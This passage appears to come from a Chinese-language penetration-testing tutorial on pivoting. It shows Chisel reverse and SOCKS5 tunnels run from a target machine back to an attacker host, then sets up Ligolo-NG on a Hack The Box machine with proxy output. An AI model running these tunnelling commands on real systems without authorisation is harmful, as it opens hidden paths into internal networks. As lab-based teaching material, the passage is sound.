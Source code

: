 ```bash
# 在攻击机上监听8000端口作为Chisel服务器，不转发任何端口，仅接受客户端连接
chisel server --reverse -p 8000
```

**在靶机（ServerB）上运行 Chisel 客户端：** 靶机连接到攻击机的Chisel服务器，并指定要转发的端口

```bash
# 在靶机上连接攻击机的Chisel服务器（192.168.1.5:8000）
# 并将靶机本地的127.0.0.1:8080服务，反向隧道到攻击机本地的8088端口
chisel client 192.168.1.5:8000 R:8088:127.0.0.1:8080
```

###### 动态端口转发模式

**在攻击机（AttackerA）上启动 Chisel 客户端：** 攻击机连接到靶机上运行的Chisel服务器，并在本地监听一个SOCKS端口。

```bash
# 在攻击机上连接靶机的Chisel服务器（192.168.1.100:8000）
# 并在本地监听1080端口作为SOCKS5代理
chisel client 192.168.1.100:8000 SOCKS:1080
```

**在靶机（ServerB）上启动 Chisel 服务器：** 靶机监听一个端口作为Chisel服务器，并作为SOCKS代理的出口。

```bash
# 在靶机上监听8000端口作为Chisel服务器
chisel server -p 8000 --socks5
```

配置成功后配合proxychain进行利用

##### Ligolo-NG

这个工具是在看一个师傅的博客时候看到的，昨天晚上大概看了一遍使用文档，借着写文章的机会找一台靶机利用一下。~~为了这碟醋包饺子属于是~~

###### 安装&初始化

```bash
#以下是安装命令，但是最佳实践是直接从官方的git仓库下载最新的版本。
$ apt install ligolo-ng
#以下是初始化
#创建名为ligolo的网卡
#也可以用proxy端自带的创建网卡的命令，这里不再赘述
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up

```

###### 服务端启动

```bash
#启动proxy客户端，附加-selfcert参数
┌──(kali㉿kali)-[~/HTB/Eureka]
└─$ sudo ligolo-proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
ERRO[0000] Certificate cache error: acme/autocert: certificate cache miss, returning a new certificate 
INFO[0000] Listening on 0.0.0.0:11601                   
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: dev
ligolo-ng » 
```
